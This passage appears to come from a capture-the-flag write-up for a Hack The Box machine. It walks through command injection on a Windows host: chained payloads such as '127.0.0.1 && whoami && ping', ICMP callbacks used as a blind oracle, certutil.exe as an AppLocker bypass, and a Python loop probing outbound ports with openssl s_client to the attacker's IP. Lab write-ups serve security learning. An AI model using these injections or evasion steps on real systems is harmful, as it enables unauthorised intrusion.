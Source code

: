 Ok, so the webserver on port 80 is not running with the same user as port 8080.

After wasting a few more hours, I realized that AppLocker isn't enabled for user `IIS`. I suspected that the outbound ports on the box would be firewalled so I used a boolean blind approach to test various commands. The following payload will ping my machine only if the preceding command has been successfully executed: `127.0.0.1 && whoami && ping 10.10.14.23`.

To test this, I first tried a command that I know will work: `127.0.0.1 && whoami && ping 10.10.14.23`

```
root@darkisland:~# tcpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:02:19.817657 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 63, length 40
21:02:19.817712 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 63, length 40
21:02:20.777578 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 64, length 40
21:02:20.777608 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 64, length 40
21:02:21.768882 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 65, length 40
21:02:21.768933 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 65, length 40
21:02:22.919376 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 66, length 40
21:02:22.919408 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 66, length 40
```

We are getting pinged so it means the command was executed correctly.

Next, our target is `certutil.exe` so we can use it to download files.

First, I tested locally on my Windows machine if running certutil.exe without parameters returns a successful error code. I wanted to do this because I suspected there was an outbound firewall blocking some most ports.

![](/assets/images/htb-writeup-ethereal/boolean1.png)

Then I verified that certutil.exe is not blocked now that we are running as IIS: `127.0.0.1 && certutil.exe && ping 10.10.14.23`.

```
21:06:30.214884 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 71, length 40
21:06:30.214912 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 71, length 40
21:06:31.286151 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 72, length 40
21:06:31.286182 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 72, length 40
```

We're getting pinged so the certutil.exe command didn't error out. 

While previously looking at the files and programs on the box, I found `c:\program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe"` installed (and it wasn't AppLocked for `alan` user either), so I used this to establish outbound sockets.

I modified the existing script to scan for the first 200 ports:

```python 
    for i in range(1, 200):
        time.sleep(2.5)
        cmd = "\"c:\\program files (x86)\\OpenSSL-v1.1.0\\bin\\openssl.exe\" s_client -host 10.10.14.23 -port {}".format(str(i))
        print(cmd)
        send(cmd, 1)
```
